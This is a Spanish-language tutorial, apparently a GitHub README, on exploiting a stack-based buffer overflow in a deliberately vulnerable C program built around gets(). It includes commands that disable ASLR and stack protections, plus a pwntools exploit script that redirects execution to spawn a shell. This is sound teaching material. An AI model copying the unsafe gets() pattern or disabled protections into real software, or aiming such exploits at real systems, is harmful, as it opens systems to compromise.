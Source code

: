 # Stack-Based Buffer Overflow

## 1. Introducción
Un **Stack-Based Buffer Overflow** ocurre cuando un programa escribe más datos de los permitidos en un buffer localizado en la pila (stack), sobrescribiendo la dirección de retorno de la función y permitiendo la ejecución de código arbitrario.

En este ejercicio, explotaremos una vulnerabilidad en un programa en C que usa la función insegura `gets()`, permitiendo sobrescribir la dirección de retorno y ejecutar una shell.



## 2. Preparación del Entorno

### **Desactivar Protecciones (Solo para Pruebas en Entorno Controlado)**
Algunas protecciones modernas dificultan la explotación de buffer overflows. Para facilitar la prueba:

1. **Desactivar ASLR (Address Space Layout Randomization)**:
   ```bash
   echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
   ```
2. **Compilar el programa sin protecciones**:
   ```bash
   gcc -fno-stack-protector -z execstack -o vulnerable vulnerable.c
   ```
   - `-fno-stack-protector`: Desactiva los canarios en la pila.
   - `-z execstack`: Permite la ejecución en la pila.

## 3. Código Vulnerable en C
Guarda el siguiente código como `vulnerable.c`:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void shell() {
    system("/bin/sh"); // Llamada a una shell si logramos redirigir el flujo de ejecución
}

void vulnerable() {
    char buffer[64];
    printf("Introduce tu entrada: ");
    gets(buffer); // Función insegura (puede causar desbordamiento)
    printf("Tu entrada fue: %s\n", buffer);
}

int main() {
    vulnerable();
    return 0;
}
```

Compila el programa:
```bash
gcc -fno-stack-protector -z execstack -o vulnerable vulnerable.c
```



## 4. Explotación con Python

### **1. Instalamos pwntools**
```bash
pip install pwntools
```

### **2. Creamos el Exploit en Python**
Guarda este script como `exploit.py`:

```python
from pwn import *

# Dirección de la función shell() en el binario (ajusta según objdump -d vulnerable | grep shell)
shell_addr = p32(0x08049182)  # Ajustar según la compilación

# Construcción del exploit
payload = b"A" * 68  # Relleno hasta la dirección de retorno
payload += shell_addr  # Sobrescribimos la dirección de retorno con la función shell()

# Ejecutar el programa y enviar el payload
p = process("./vulnerable")
p.sendline(payload)
p.interactive()  # Para interactuar con la shell obtenida
```

### **3. Ejecutamos el Exploit**
```bash
python3 exploit.py
```
Si todo sale bien, obtendremos una shell (`/bin/sh`).



## 5. Explicación de la Explotación
1. **El buffer es de 64 bytes**, pero la dirección de retorno está después de 4 bytes adicionales, por eso enviamos 68 (`64 + 4`).  
2. **Sobrescribimos la dirección de retorno con la de `shell()`**.
3. **Al ejecutar el programa con la carga maliciosa**, el flujo de ejecución salta a `shell()`, dándonos acceso a una shell del sistema.



## 6. Protecciones Contra Stack Overflow
1. **Canarios en la Pila**: Detectan corrupción antes de que la función retorne.
2. **ASLR (Address Space Layout Randomization)**: Aleatoriza direcciones de memoria para evitar predecir la dirección del shellcode.
3. **DEP (Data Execution Prevention)**: Bloquea la ejecución de código en la pila.


